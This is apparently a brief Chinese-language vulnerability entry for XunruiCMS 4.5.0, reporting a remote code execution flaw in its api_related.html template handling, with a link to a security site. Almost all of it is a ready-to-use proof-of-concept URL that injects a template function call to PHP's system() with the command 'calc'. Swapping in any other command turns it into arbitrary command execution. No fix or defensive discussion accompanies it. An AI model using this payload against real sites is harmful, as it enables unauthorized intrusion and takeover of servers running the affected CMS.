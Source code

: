 # 迅睿CMSXUNRUICMS 4.5.0版本 api_related_html 文件 存在远程代码执行漏洞

    https://www.linuxlz.com/aqld/2985.html

```
http://localhost:2333/index.php?s=api&c=api&m=template&app=admin&name=api_related.html&phpcmf_dir=admin&mid= action=function name=system param0=calc
```
